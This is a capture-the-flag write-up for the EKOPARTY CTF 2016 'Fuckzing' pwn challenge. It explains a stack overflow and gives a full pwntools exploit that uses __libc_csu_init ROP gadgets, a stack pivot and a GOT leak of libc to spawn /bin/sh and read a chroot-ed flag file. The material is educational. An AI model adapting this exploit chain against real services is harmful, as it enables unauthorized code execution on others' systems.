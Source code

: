 ```yaml
---
layout: post
alias: "/blog/2016/10/29/ekoparty-ctf-2016-fuckzing-exploit/"
date: "2016-10-29T13:00:47+09:00"
title: "EKOPARTY CTF 2016: Fuckzing exploit"
tags: [ "ctf", "writeup", "ekoparty-ctf", "pwn", "rop", "stack-pivot", "libc-csu-init" ]
"target_url": [ "https://ctf.ekoparty.org/tasks/pwn/200" ]
---
```


-   Sun Oct 30 00:19:55 JST 2016
    -   I heard that the string for the rev-250 was unnecessary to cause buffer overflow.

## problem

The binary is same to the rev-250, Fuckzing rev-250, but the filter on server doesn't exist.
You should solve rev-250 first.

## solution

To call `system("/bin/sh")`, it's not difficult. There are stack overflow vulnerability, and you can do return-oriented-programming with `__libc_csu_init` and stack-pivot.

However, I spent much time after taking the shell.
The difficulties are below:

-   I couldn't use `/bin/sh` interactively (why?)
-   It is `chroot`-ed and there are only $2$ binaries: `/bin/sh` and `/bin/ls`
-   And you cannot `cat flag.txt`

And I got the flag using the shell-builtin command `.`. It reports the contents of a file as error message.

```
# /bin/ls -l
total 84\n
-rw-r--r--  1 fuck 1002     0 Oct 27 18:47 ?@
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 ???????????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:39 -?M@+LQ}Z2??V??Cw+??}????d4???
-rwxr-xr-x  1 root    0 30640 Oct 21 15:52 FUck_binary
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 V?[??????fp?
-rw-r--r--  1 fuck 1002     2 Oct 28 07:38 a
drwxr-xr-x  2 root    0  4096 Oct 27 15:50 bin
drwxr-xr-x 19 root    0  4320 Aug 22 13:14 dev
drwxr-xr-x  3 root    0  4096 Oct 21 16:06 etc
-rw-r--r--  1 root    0    20 Oct 21 16:16 flag.txt
-rw-r--r--  1 fuck 1002     1 Oct 28 12:29 hoge
drwxr-xr-x  3 root    0  4096 Oct 20 21:16 home
-rw-r--r--  1 fuck 1002 10252 Oct 28 00:56 index.html
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 k??T???Y?p?
drwxr-xr-x  3 root    0  4096 Oct 20 20:56 lib
drwxr-xr-x  2 root    0  4096 Oct 20 20:57 lib64
drwxr-xr-x  2 root    0  4096 Oct 21 09:21 proc
drwxr-xr-x  5 root    0  4096 Oct 20 22:30 usr
-rw-r--r--  1 fuck 1002     0 Oct 27 20:43 ???T?BTK??*?????????????J??W
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ????mW#???????Cq?????d???????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ??H??5m8??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:38 ??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:44 ????t?]???Fx?
```

``` sh
# /bin/ls -l /bin
total 276
-rwxr-xr-x 1 root 0 126584 Oct 27 15:45 ls
-rwxr-xr-x 1 root 0 154072 Oct 27 15:50 sh
```

``` sh
# . flag.txt
/bin/sh: 1: ./flag.txt: EKO{AFL_found_this}: not found
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site')
parser.add_argument('port', nargs='?', default=10000, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('FUck_binary')
libc = ELF('libc.so.6') # Ubuntu 16.04, d443f227870b9c29182cc7a7a007d881
libc_csu_init_a = 0x405660
libc_csu_init_b = 0x40567a
pop_rsp_r13_r14_r15_ret =  0x40567d # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
static = 0x606000
next_stack = static + 0x1000 - 0x200
buffer = static + 0x1000 - 0x90

# p = process('./FUck_binary', env={ 'LD_LIBRARY_PATH': '.' }) # with ./libget_flag.so
p = remote(args.host, args.port)

p.recvuntil("Hello, what's your team name? ")
payload = ''
payload += '\x80@@\x88\xa6  @ \x86@v@   /\x96vC\x80p D AC``@`v 0  \x87\x80   @X@ @@\x80`@h \x9d@  W@UB \x80( \x8cq@@ \x80\x80 F$tH  6  J B k[Q` @@@Xp, I @\x80 @             \x80  \x80 @          ' # found using angr (rev 250)
payload += 'AAAAAAAA' # rbp
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(next_stack) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += 'AAAAAAAA' # rbx
payload += 'AAAAAAAA' # rbp
payload += 'AAAAAAAA' # r12
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(pop_rsp_r13_r14_r15_ret) # rip
payload += p64(next_stack) # rsp
p.send(payload)

time.sleep(1)
payload = ''
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['write']) # r12 -> rip
payload += p64(8) # r13 -> rdx
payload += p64(elf.got['setvbuf']) # r14 -> rsi
payload += p64(1) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(buffer) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(buffer) # r12
payload += p64(buffer + 0x8) # r13
payload += p64(buffer + 0x10) # r14
payload += p64(buffer + 0x40) # r15
payload += p64(libc_csu_init_a)
p.send(payload)

p.recvuntil('Goodbye!')
setvbuf = u64(p.recv(8))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('setvbuf: %#x', setvbuf)
log.info('libc base: %#x', libc_base)
payload = ''
payload += p64(libc_base + libc.symbols['execve']) # 0x0
payload += p64(0) # 0x8, envp[0]
payload += p64(buffer + 0x40) # 0x10, argv[0]
payload += p64(buffer + 0x50) # 0x18
payload += p64(buffer + 0x60) # 0x20
payload += p64(0) # 0x28
payload += p64(0) # 0x30
payload += p64(0) # 0x38
payload += '/bin/sh\0' # 0x40
payload += '\0' * (0x50 - len(payload))
payload += '-c\0' # 0x50
payload += '\0' * (0x60 - len(payload))
payload += '. ./flag.txt\0' # 0x60
p.send(payload)

print p.recvall()
```
